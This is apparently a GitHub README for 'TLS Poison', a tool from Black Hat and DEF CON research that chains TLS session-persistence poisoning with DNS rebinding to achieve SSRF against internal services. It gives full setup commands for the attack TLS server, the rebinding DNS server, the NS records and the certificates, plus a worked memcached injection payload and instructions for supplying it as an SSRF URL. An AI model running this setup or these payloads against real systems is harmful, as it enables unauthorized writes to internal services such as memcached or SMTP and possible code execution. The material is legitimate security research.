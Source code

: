 # TLS Poison
[YouTube link to presentation](https://youtube.com/watch?v=qGpAJxfADjo)

A tool that allows for generic SSRF via TLS, as well as CSRF via image tags
in most browsers.  The goals are similar to
[SNI injection](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf),
but this new method uses inherent behaviors of TLS,
instead of depending upon bugs in a particular implementation.

This was originally presented at [Blackhat USA 2020](https://www.blackhat.com/us-20/briefings/schedule/#when-tls-hacks-you-19446)
as well as [DEF CON Safemode](https://www.defcon.org/html/defcon-safemode/dc-safemode-speakers.html#Maddux).

A big thanks goes out to [rustls](https://github.com/ctz/rustls) and 
[dns-mitm](https://github.com/SySS-Research/dns-mitm), each of which this
is mostly just a strange patched fork.

## Motivation
Back when gopher support was common, people got a lot of mileage out of
using it for SSRF.  So much so that there's pretty good tooling like
[Gopherus](https://github.com/tarunkant/Gopherus) for doing so. This 
is because there are some software packages that often sit unauthenticated
on localhost or on an internal network.  A common one is memcached,
because writing to memcached can often become RCE.  

What if we could replicate this behavior, but instead of giving
the attack target a `gopher://` URL which isn't often supported, we
give it an `https://` URL?  This has been done before with SNI injection,
but what if we did it in a more universal way?

It turns out TLS provides us with the perfect thing - session persistence!
I plan on eventually writing up how this works, as well as more detail on
what attacks can be done with it.  For now you can either watch the Blackhat
or DEF CON talk, or attempt to decipher the following diagram I came up
with a while back:
![tes](diagram.svg)

## Instructions
As a heads up, you will need a domain where you can set NS records.
If needed can find a few free subdomain providers which may work by
[searching around](https://www.google.com/search?q=free+subdomain+hosting+with+ns+record),
but I have only tried with a dedicated top-level domain.  In any case
I'd recommend holding off on registering anything until you complete the
first few steps to make sure everything's working properly.
### TLS server
This should be on something public, where the DNS rebinding server will
eventually resolve to.  You should probably use a dedicated box/VM for
this, since you'll end up exposing whatever port you want to target, e.g.
11211 for memcached or 25 for SMTP.
```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 8443 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```
 
 ### DNS rebinding server
 You'll need this on a public box as well.  If you know for sure your
 box doesn't have a `systemd-resolved` stub resolver, it can be on the
 same box as `custom-tls`, but I'd recommend putting this on its own.
 ```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

### Setting up the NS record and certificates
You'll need to set up an NS record and a glue record so that DNS requests 
go to your rebinding server.  For example, if your domain is example.com,
you should add:
```
dns.example.com A 300 <DNS_IP>
tlstest.example.com NS 300 dns.example.com
```
Then to get a TLS certificate for `tlstest.example.com`, go to the
[certbot DNS instructions](https://certbot.eff.org/docs/using.html#dns-plugins) and complete a DNS challenge for it.  Then, go back to
`custom-tls` and rerun it:
```bash
target/debug/custom-tls  -p 8443--verbose --certs letsencrypt-cert.fullchain --key letsencrypt-key.rsa http
```
Now you're set up to attack real stuff!  When something makes a request to
`https://tlstest.jmaddux.com:8443`, both the TLS session poisoning and DNS
rebinding steps should be fully functional.

### Putting it all together
To use this in different situations, you'll need to vary a few things:
- port: Your TLS server will need to run on this port, since rebinding only
switches up the domain (e.g. tlstest.example.com:11211 can be either 35.x.x.x:11211,
or 127.0.0.1:11211)
- sleep: The duration the TLS server sleeps between redirects.  This varies
based upon what software you are sending custom-tls server, instead of what
internal service you're attacking.  For example, testing curl-initited SSRF this
can be 10000ms, but for chrome-based stuff it can be quite short.  On the other
hand, if you see the attacks failing because you hit a maximum number of redirects,
consider increasing this to 59000ms or beyond.  If you don't see TLS sessions being
persisted and re-delivered to the internal service, it can often be fixed by
varying the sleep time.
- payload: Typically will start with a newline, and then have whatever commands
you want to inject into the protocol you're targeting.

For example, for memcached:
```bash
redis-cli
127.0.0.1:6379> set payload "\r\nset foo 0 0 14\r\nim in ur cache \r"
Ctrl+c
# Note the following is port 11211 now.
target/debug/custom-tls -p 11211 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa -p 11211 http
```
Then run you can supply https://tlstest.example.com:11211 as your SSRF payload.
If you want to reproduce my curl/memcached demo from the talk, you'll want to pass `-L` to curl to enable redirects, since command-line curl will use a fresh cache each time it's run.
Good luck, and make sure not to attack anything you don't have permission!
